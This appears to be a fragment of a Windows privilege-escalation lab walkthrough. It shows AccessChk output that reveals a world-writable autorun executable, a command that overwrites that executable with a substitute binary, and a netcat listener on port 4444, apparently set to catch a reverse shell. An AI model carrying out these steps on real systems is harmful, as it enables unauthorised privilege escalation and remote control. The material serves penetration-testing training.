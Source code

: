 
```bash
C:\PrivEsc>accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

<img width="765" height="365" alt="image" src="https://github.com/user-attachments/assets/1fdd08a0-5932-4305-a723-469c851e5e2b" />

```bash
C:\PrivEsc>accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

```bash
C:\PrivEsc>copy C:\PrivEsc\program.exe "C:\Program Files\Autorun Program\program.exe" /Y
        1 file(s) copied.
```

```bash
:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
```
